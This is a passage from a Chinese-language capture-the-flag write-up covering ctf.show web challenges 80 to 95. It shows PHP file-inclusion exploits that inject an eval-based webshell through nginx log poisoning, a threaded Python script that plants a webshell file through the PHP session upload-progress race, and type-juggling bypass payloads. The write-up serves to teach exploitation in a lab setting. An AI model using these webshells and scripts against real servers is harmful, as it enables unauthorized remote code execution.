class="variable">$file</span>);</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-2"><a href="#解题-2" class="headerlink" title="解题"></a>解题</h2><p>过滤了data，zip压缩流好像也无法调用。<br>这里调用的是日志文件。<br>具体流程如下：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># 先尝试访问到日志文件</span></span><br><span class="line">GET:</span><br><span class="line">    ?file=/<span class="keyword">var</span>/log/nginx/access.log</span><br><span class="line"><span class="keyword">return</span>:</span><br><span class="line">    <span class="comment">// 说明访问成功</span></span><br><span class="line">    <span class="number">172.12</span>.<span class="number">0.40</span> - - [<span class="number">28</span>/Aug/<span class="number">2023</span>:<span class="number">09</span>:<span class="number">41</span>:<span class="number">53</span> +<span class="number">0000</span>] <span class="string">&quot;GET / HTTP/1.1&quot;</span> <span class="number">200</span> <span class="number">2291</span> <span class="string">&quot;-&quot;</span> <span class="string">&quot;Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0&quot;</span></span><br></pre></td></tr></table></figure>

<p>随便抓个包，在UA的地方插入一句话木马。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET /?file=/<span class="keyword">var</span>/log/nginx/access.log HTTP/<span class="number">1.1</span></span><br><span class="line">Host: <span class="number">82</span>b96b22-cba9-<span class="number">4</span>ca8-bb5e-a799983d105b.challenge.ctf.show</span><br><span class="line">User-Agent: <span class="meta">&lt;?php</span> <span class="keyword">eval</span>(<span class="variable">$_POST</span>[<span class="number">1</span>])<span class="meta">?&gt;</span></span><br><span class="line">Accept: text/html,application/xhtml+xml,application/xml;q=<span class="number">0.9</span>,image/avif,image/webp,*<span class="comment">/*;q=0.8</span></span><br><span class="line"><span class="comment">Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2</span></span><br><span class="line"><span class="comment">Accept-Encoding: gzip, deflate</span></span><br><span class="line"><span class="comment">Connection: close</span></span><br><span class="line"><span class="comment">Upgrade-Insecure-Requests: 1</span></span><br><span class="line"><span class="comment">Pragma: no-cache</span></span><br><span class="line"><span class="comment">Cache-Control: no-cache</span></span><br></pre></td></tr></table></figure>

<p>放包后，发现出现奇怪的日志记录就算成功了。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="number">172.12</span>.<span class="number">0.40</span> - - [<span class="number">28</span>/Aug/<span class="number">2023</span>:<span class="number">09</span>:<span class="number">50</span>:<span class="number">50</span> +<span class="number">0000</span>] <span class="string">&quot;GET /?file=/var/log/nginx/access.log&amp;callback=jsonp1&amp;cb=jsonp2&amp;jsonp=jsonp3&amp;jsonpcallback=jsonp4&amp;jsonpcb=jsonp5&amp;jsonp_cb=jsonp6&amp;call=jsonp7&amp;jcb=jsonp8&amp;json=jsonp9&amp;cbk=jsonp10&amp;jsonpCallback=jsonp11&amp;jsonpcb=jsonp12&amp;jsoncallback=jsonp13&amp;method=jsonp14&amp;callbackStatus=jsonp15&amp;jsonp_callback=jsonp16 HTTP/1.1&quot;</span> <span class="number">200</span> <span class="number">1008</span> <span class="string">&quot;http://82b96b22-cba9-4ca8-bb5e-a799983d105b.challenge.ctf.show/&quot;</span> <span class="string">&quot;&lt;br /&gt;</span></span><br><span class="line"><span class="string">&lt;b&gt;Notice&lt;/b&gt;:  Undefined offset: 1 in &lt;b&gt;/var/log/nginx/access.log&lt;/b&gt; on line &lt;b&gt;6&lt;/b&gt;&lt;br /&gt;</span></span><br></pre></td></tr></table></figure>

<p>然后使用一句话get后台读取即可</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># get部分固定是这个样子，变动的是POST部分。</span></span><br><span class="line">GET:  http:<span class="comment">//82b96b22-cba9-4ca8-bb5e-a799983d105b.challenge.ctf.show/?file=/var/log/nginx/access.log</span></span><br><span class="line"></span><br><span class="line">POST: <span class="number">1</span>=<span class="title function_ invoke__">system</span>(<span class="string">&#x27;ls&#x27;</span>);</span><br><span class="line"><span class="keyword">return</span>: </span><br><span class="line">    fl0g.php index.php</span><br><span class="line">POST:</span><br><span class="line">    <span class="meta">&lt;?php</span></span><br><span class="line">    <span class="comment">/*</span></span><br><span class="line"><span class="comment">    # -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment">    # <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment">    # <span class="doctag">@Date</span>:   2020-09-16 11:24:37</span></span><br><span class="line"><span class="comment">    # <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment">    # <span class="doctag">@Last</span> Modified time: 2020-09-16 11:25:00</span></span><br><span class="line"><span class="comment">    # <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment">    # <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment">    */</span></span><br><span class="line">    <span class="variable">$flag</span>=<span class="string">&quot;ctfshow&#123;144be8c9-a20c-4250-9d72-77caf7843ed3&#125;&quot;</span>;</span><br></pre></td></tr></table></figure>

<h1 id="web81"><a href="#web81" class="headerlink" title="web81"></a>web81</h1><h2 id="原始信息-3"><a href="#原始信息-3" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$file</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>];</span><br><span class="line">    <span class="variable">$file</span> = <span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;php&quot;</span>, <span class="string">&quot;???&quot;</span>, <span class="variable">$file</span>);</span><br><span class="line">    <span class="variable">$file</span> = <span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;data&quot;</span>, <span class="string">&quot;???&quot;</span>, <span class="variable">$file</span>);</span><br><span class="line">    <span class="variable">$file</span> = <span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;:&quot;</span>, <span class="string">&quot;???&quot;</span>, <span class="variable">$file</span>);</span><br><span class="line">    <span class="keyword">include</span>(<span class="variable">$file</span>);</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解答"><a href="#解答" class="headerlink" title="解答"></a>解答</h2><p>因为过滤的时候无法影响到日志文件的UA头，所以说这道题的WP和80题一致。</p>
<h1 id="web82-86通杀脚本"><a href="#web82-86通杀脚本" class="headerlink" title="web82~86通杀脚本"></a>web82~86通杀脚本</h1><figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="keyword">import</span> requests</span><br><span class="line"><span class="keyword">import</span> io</span><br><span class="line"><span class="keyword">import</span> threading</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">url=<span class="string">&#x27;http://801e7156-6aa4-4326-a739-2ad139d518aa.challenge.ctf.show/&#x27;</span></span><br><span class="line">sessionid=<span class="string">&#x27;ctfshow&#x27;</span></span><br><span class="line">data=&#123;</span><br><span class="line">        <span class="string">&quot;1&quot;</span>:<span class="string">&quot;file_put_contents(&#x27;/var/www/html/muma.php&#x27;,&#x27;&lt;?php eval($_POST[a]);?&gt;&#x27;);&quot;</span></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="string">&#x27;&#x27;&#x27;</span></span><br><span class="line"><span class="string">post 传递内容可在网站目录下写入一句话木马。</span></span><br><span class="line"><span class="string">根据资料，内容暂存在 /tmp/ 目录下 sess_sessionid 文件。</span></span><br><span class="line"><span class="string">sessionid 可控，所以这里即 /tmp/sess_ctfshow。</span></span><br><span class="line"><span class="string">这样一旦访问成功，就说明木马植入了</span></span><br><span class="line"><span class="string">&#x27;&#x27;&#x27;</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="comment"># /tmp/sess_sessionid 中写入一句话木马。</span></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">write</span>(<span class="params">session</span>):</span><br><span class="line">        fileBytes = io.BytesIO(<span class="string">b&#x27;a&#x27;</span>*<span class="number">1024</span>*<span class="number">50</span>)</span><br><span class="line">        <span class="keyword">while</span> <span class="literal">True</span>:</span><br><span class="line">                response=session.post(</span><br><span class="line">                        url,</span><br><span class="line">                        data=&#123;</span><br><span class="line">                        <span class="string">&#x27;PHP_SESSION_UPLOAD_PROGRESS&#x27;</span>:<span class="string">&#x27;&lt;?php eval($_POST[1]);?&gt;&#x27;</span></span><br><span class="line">                        &#125;,</span><br><span class="line">                        cookies=&#123;</span><br><span class="line">                        <span class="string">&#x27;PHPSESSID&#x27;</span>:sessionid</span><br><span class="line">                        &#125;,</span><br><span class="line">                        files=&#123;</span><br><span class="line">                        <span class="string">&#x27;file&#x27;</span>:(<span class="string">&#x27;ctfshow.jpg&#x27;</span>,fileBytes)</span><br><span class="line">                        &#125;</span><br><span class="line">                        )</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="comment"># 访问 /tmp/sess_sessionid，post 传递信息，保存新木马。</span></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">read</span>(<span class="params">session</span>):</span><br><span class="line">        <span class="keyword">while</span> <span class="literal">True</span>:</span><br><span class="line">                response=session.post(</span><br><span class="line">                        url+<span class="string">&#x27;?file=/tmp/sess_&#x27;</span>+sessionid,</span><br><span class="line">                data=data,</span><br><span class="line">                        cookies=&#123;</span><br><span class="line">                        <span class="string">&#x27;PHPSESSID&#x27;</span>:sessionid</span><br><span class="line">                        &#125;</span><br><span class="line">                        )</span><br><span class="line">                <span class="comment"># 访问木马文件，如果访问到了就代表竞争成功</span></span><br><span class="line">                resposne2=session.get(url+<span class="string">&#x27;muma.php&#x27;</span>)</span><br><span class="line">                <span class="keyword">if</span> resposne2.status_code==<span class="number">200</span>:</span><br><span class="line">                        <span class="built_in">print</span>(<span class="string">&#x27;++++++done++++++&#x27;</span>)</span><br><span class="line">                <span class="keyword">else</span>:</span><br><span class="line">                        <span class="built_in">print</span>(resposne2.status_code)</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">&#x27;__main__&#x27;</span>:</span><br><span class="line"></span><br><span class="line">        evnet=threading.Event()</span><br><span class="line">        <span class="comment"># 写入和访问分别设置 5 个线程。</span></span><br><span class="line">        <span class="keyword">with</span> requests.session() <span class="keyword">as</span> session:</span><br><span class="line">                <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">5</span>):</span><br><span class="line">                        threading.Thread(target=write,args=(session,)).start()</span><br><span class="line">                <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">5</span>):</span><br><span class="line">                        threading.Thread(target=read,args=(session,)).start()</span><br><span class="line"></span><br><span class="line">        evnet.<span class="built_in">set</span>()</span><br></pre></td></tr></table></figure>

<p>如果本机的机器环境够格的话，是能一下子跑出正确状态的。但是如果本机环境不行，放云环境跑一下即可。笔者在本地上跑不出结果，放云Ubuntu跑一下就出结果了。</p>
<h1 id="web82-条件竞争"><a href="#web82-条件竞争" class="headerlink" title="web82(条件竞争)"></a>web82(条件竞争)</h1><h2 id="原始信息-4"><a href="#原始信息-4" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$file</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>];</span><br><span class="line">    <span class="variable">$file</span> = <span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;php&quot;</span>, <span class="string">&quot;???&quot;</span>, <span class="variable">$file</span>);</span><br><span class="line">    <span class="variable">$file</span> = <span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;data&quot;</span>, <span class="string">&quot;???&quot;</span>, <span class="variable">$file</span>);</span><br><span class="line">    <span class="variable">$file</span> = <span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;:&quot;</span>, <span class="string">&quot;???&quot;</span>, <span class="variable">$file</span>);</span><br><span class="line">    <span class="comment"># 无后缀：session文件</span></span><br><span class="line">    <span class="variable">$file</span> = <span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;.&quot;</span>, <span class="string">&quot;???&quot;</span>, <span class="variable">$file</span>);</span><br><span class="line">    <span class="keyword">include</span>(<span class="variable">$file</span>);</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解答-1"><a href="#解答-1" class="headerlink" title="解答"></a>解答</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># 即便没开启session，上传时也会自产生</span></span><br><span class="line"><span class="comment"># session文件临时位置</span></span><br><span class="line">/tmp/sess_xxxxxx</span><br><span class="line"><span class="comment"># 获取实时文件上传进度，返回一个session</span></span><br><span class="line">PHP_SESSION_UPLOAD_PRGRESS</span><br><span class="line"><span class="comment"># 假设提交内容123</span></span><br><span class="line">PHP_SESSION_UPLOAD_PRGRESS=&gt;<span class="string">&#x27;123&#x27;</span>-&gt;/tmp/sess_aaa-&gt;内容就是<span class="number">123</span></span><br><span class="line">    </span><br></pre></td></tr></table></figure>


<h1 id="web83"><a href="#web83" class="headerlink" title="web83"></a>web83</h1><h2 id="原始信息-5"><a href="#原始信息-5" class="headerlink" title="原始信息"></a>原始信息</h2><h2 id="解题-3"><a href="#解题-3" class="headerlink" title="解题"></a>解题</h2><h1 id="PHP特性"><a href="#PHP特性" class="headerlink" title="PHP特性"></a>PHP特性</h1><h1 id="web89"><a href="#web89" class="headerlink" title="web89"></a>web89</h1><h2 id="原始信息-6"><a href="#原始信息-6" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$num</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/[0-9]/&quot;</span>, <span class="variable">$num</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;no no no!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">intval</span>(<span class="variable">$num</span>))&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-4"><a href="#解题-4" class="headerlink" title="解题"></a>解题</h2><p>数组绕过</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">num[]=<span class="number">1</span></span><br></pre></td></tr></table></figure>

<h1 id="web90"><a href="#web90" class="headerlink" title="web90"></a>web90</h1><h2 id="原始信息-7"><a href="#原始信息-7" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$num</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$num</span>===<span class="string">&quot;4476&quot;</span>)&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;no no no!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">intval</span>(<span class="variable">$num</span>,<span class="number">0</span>)===<span class="number">4476</span>)&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="title function_ invoke__">intval</span>(<span class="variable">$num</span>,<span class="number">0</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-5"><a href="#解题-5" class="headerlink" title="解题"></a>解题</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">// 因为我们传入参数的时候，num的值就已经是字符串了。</span></span><br><span class="line"><span class="comment">// 我们想要透过强比较得到flag，就不能和4476字符串相等。</span></span><br><span class="line"><span class="variable">$num</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>];</span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$num</span>===<span class="string">&quot;4476&quot;</span>)&#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&quot;no no no!&quot;</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="comment">// 这里会对字符串进行处理得到整数，传入4476a就相当于传入了4476</span></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">intval</span>(<span class="variable">$num</span>,<span class="number">0</span>)===<span class="number">4476</span>)&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="title function_ invoke__">intval</span>(<span class="variable">$num</span>,<span class="number">0</span>);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<p>构造payload：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET:?num=<span class="number">4476</span>a</span><br><span class="line"><span class="keyword">return</span>:ctfshow&#123;<span class="number">75593</span>d49-<span class="number">792</span>f-<span class="number">4470</span>-a98f-<span class="number">0</span>d28ee3afdbf&#125;</span><br></pre></td></tr></table></figure>

<h1 id="web91"><a href="#web91" class="headerlink" title="web91"></a>web91</h1><h2 id="原始信息-8"><a href="#原始信息-8" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">show_source</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&#x27;flag.php&#x27;</span>);</span><br><span class="line"><span class="variable">$a</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;cmd&#x27;</span>];</span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/^php$/im&#x27;</span>, <span class="variable">$a</span>))&#123;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/^php$/i&#x27;</span>, <span class="variable">$a</span>))&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="string">&#x27;hacker&#x27;</span>;</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&#x27;nonononono&#x27;</span>;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解答-2"><a href="#解答-2" class="headerlink" title="解答"></a>解答</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">// 过滤php，不区分大小写+多行匹配</span></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/^php$/im&#x27;</span>, <span class="variable">$a</span>))&#123;</span><br><span class="line">    <span class="comment">// 过滤php，不区分大小写</span></span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/^php$/i&#x27;</span>, <span class="variable">$a</span>))&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="string">&#x27;hacker&#x27;</span>;</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&#x27;nonononono&#x27;</span>;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<p>传参的要求：有换行和php</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET:?cmd=%<span class="number">0</span>aphp</span><br><span class="line"><span class="keyword">return</span>:ctfshow&#123;saadfgadgerhdrfagdsfasdasdf&#125;</span><br></pre></td></tr></table></figure>

<p>%0a正则表达式相关考点介绍的博客<a target="_blank" rel="noopener" href="https://blog.csdn.net/qq_46091464/article/details/108278486">点我</a></p>
<h1 id="web92"><a href="#web92" class="headerlink" title="web92"></a>web92</h1><h2 id="原始信息-9"><a href="#原始信息-9" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$num</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$num</span>==<span class="number">4476</span>)&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;no no no!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">intval</span>(<span class="variable">$num</span>,<span class="number">0</span>)==<span class="number">4476</span>)&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="title function_ invoke__">intval</span>(<span class="variable">$num</span>,<span class="number">0</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-6"><a href="#解题-6" class="headerlink" title="解题"></a>解题</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">// 使用科学计数法e来绕过</span></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$num</span>==<span class="number">4476</span>)&#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&quot;no no no!&quot;</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="comment">// 遇到e，因为有0存在，截取e前面的字符串为数字</span></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">intval</span>(<span class="variable">$num</span>,<span class="number">0</span>)==<span class="number">4476</span>)&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="title function_ invoke__">intval</span>(<span class="variable">$num</span>,<span class="number">0</span>);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<p>构造payload：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">?num=<span class="number">44767e12</span></span><br></pre></td></tr></table></figure>

<h1 id="web93"><a href="#web93" class="headerlink" title="web93"></a>web93</h1><h2 id="原始信息-10"><a href="#原始信息-10" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$num</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$num</span>==<span class="number">4476</span>)&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;no no no!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/[a-z]/i&quot;</span>, <span class="variable">$num</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;no no no!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">intval</span>(<span class="variable">$num</span>,<span class="number">0</span>)==<span class="number">4476</span>)&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="title function_ invoke__">intval</span>(<span class="variable">$num</span>,<span class="number">0</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-7"><a href="#解题-7" class="headerlink" title="解题"></a>解题</h2><p>过滤了英文字符，使用进制绕过限制</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">?num=<span class="number">010574</span></span><br></pre></td></tr></table></figure>

<h1 id="web94"><a href="#web94" class="headerlink" title="web94"></a>web94</h1><h2 id="原始信息-11"><a href="#原始信息-11" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$num</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$num</span>===<span class="string">&quot;4476&quot;</span>)&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;no no no!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/[a-z]/i&quot;</span>, <span class="variable">$num</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;no no no!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(!<span class="title function_ invoke__">strpos</span>(<span class="variable">$num</span>, <span class="string">&quot;0&quot;</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;no no no!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">intval</span>(<span class="variable">$num</span>,<span class="number">0</span>)===<span class="number">4476</span>)&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-8"><a href="#解题-8" class="headerlink" title="解题"></a>解题</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line">多过滤了<span class="number">0</span>，这次使用小数点</span><br><span class="line">?num=<span class="number">4476.0</span></span><br></pre></td></tr></table></figure>

<h1 id="web95"><a href="#web95" class="headerlink" title="web95"></a>web95</h1><h2 id="原始信息-12"><a href="#原始信息-12" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$num</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$num</span>==<span class="number">4476</span>)&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;no no no!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/[a-z]|\./i&quot;</span>, <span class="variable">$num</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;no no no!!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(!<span class="title function_ invoke__">strpos</span>(<span class="variable">$num</span>, <span class="string">&quot;0&quot;</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;no no no!!!&quot;</span>);</span><br><span class="line">    